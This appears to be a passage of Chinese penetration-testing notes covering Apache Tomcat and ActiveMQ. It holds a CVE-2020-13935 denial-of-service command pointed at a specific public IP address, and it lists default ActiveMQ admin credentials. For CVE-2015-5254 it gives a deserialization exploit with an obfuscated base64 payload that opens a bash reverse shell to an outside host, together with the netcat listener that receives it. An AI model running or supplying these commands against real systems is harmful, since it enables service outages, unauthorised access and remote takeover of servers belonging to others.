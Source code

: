 ![image](img/tomcat3.png)

参考文章：

* https://www.cnblogs.com/qianxinggz/p/13440366.html

**CVE-2020-13935-拒绝服务攻击**

tomcat-echo.html 拒绝服务攻击

https://github.com/RedTeamPentesting/CVE-2020-13935

```
tcdos.exe ws://218.91.233.149:8078/example
s/websocket/echoStreamAnnotation
```

#### Apache-ActiveMQ

默认端口：8161 默认账号密码:admin/admin root/root 后台地址： /admin

* https://mp.weixin.qq.com/s/5U7v22q2WeLmCnkq7mfr8w ActiveMQ系列漏洞汇总复现

**CVE-2015-5254**

* 漏洞描述
  * Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞,该漏洞源于程序没有限制可在代理中序列化的类.远程攻击者可借助特制的序列化的 Java Message Service(JMS)ObjectMessage 对象利用该漏洞执行任意代码.
* 影响版本
  * Apache ActiveMQ 5.0.0 \~ 5.12.1
* 漏洞利用

```bash
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMS4xMTcuNTEuMjUzLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}" -Yp ROME vulfocus.fofa.so 17928

nc -l -p 7777
```
